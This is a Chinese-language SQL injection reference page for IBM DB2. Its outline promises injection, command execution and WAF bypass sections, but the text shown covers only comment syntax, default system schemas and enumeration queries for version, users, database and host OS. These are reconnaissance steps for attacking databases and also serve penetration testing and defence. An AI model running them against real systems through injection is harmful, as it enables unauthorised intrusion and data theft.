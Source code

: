 # DB2 注入

> IBM DB2 是由 IBM 开发的关系数据库管理系统（RDBMS）家族。最初于 1980 年代为大型机创建，DB2 已发展为支持各种平台和工作负载，包括分布式系统、云环境和混合部署。

## 概要

* [DB2 注释](#db2-注释)
* [DB2 默认数据库](#db2-默认数据库)
* [DB2 枚举](#db2-枚举)
* [DB2 方法论](#db2-方法论)
* [DB2 基于错误的注入](#db2-基于错误的注入)
* [DB2 基于盲注的注入](#db2-基于盲注的注入)
* [DB2 基于时间的注入](#db2-基于时间的注入)
* [DB2 命令执行](#db2-命令执行)
* [DB2 WAF 绕过](#db2-waf绕过)
* [DB2 账户与权限](#db2-账户与权限)
* [参考文献](#参考文献)

## DB2 注释

| 类型                       | 描述                       |
| -------------------------- | ------------------------- |
| `--`                       | SQL 注释                   |

## DB2 默认数据库

| 名称        | 描述                                                           |
| ----------- | ------------------------------------------------------------- |
| SYSIBM      | 存储数据库对象元数据的核心系统目录表。                           |
| SYSCAT      | 访问 SYSIBM 表中元数据的用户友好视图。                            |
| SYSSTAT     | DB2 优化器用于查询优化的统计表。                                  |
| SYSPUBLIC   | 所有用户可用的对象的元数据（授予 PUBLIC）。                      |
| SYSIBMADM   | 监控和管理数据库系统的管理视图。                                 |
| SYSTOOLS    | 提供的工具、实用程序和辅助对象，用于数据库管理和故障排除。         |

## DB2 枚举

| 描述           | SQL 查询                                              |
| --------------- | ---------------------------------------------------- |
| 数据库版本      | `select versionnumber, version_timestamp from sysibm.sysversions;` |
| 数据库版本      | `select service_level from table(sysproc.env_get_inst_info()) as instanceinfo` |
| 数据库版本      | `select getvariable('sysibm.version') from sysibm.sysdummy1` |
| 数据库版本      | `select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo` |
| 数据库版本      | `select service_level,bld_level from sysibmadm.env_inst_info` |
| 当前用户       | `select user from sysibm.sysdummy1`                  |
| 当前用户       | `select session_user from sysibm.sysdummy1`          |
| 当前用户       | `select system_user from sysibm.sysdummy1`           |
| 当前数据库     | `select current server from sysibm.sysdummy1`        |
| OS 信息        | `select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info` |
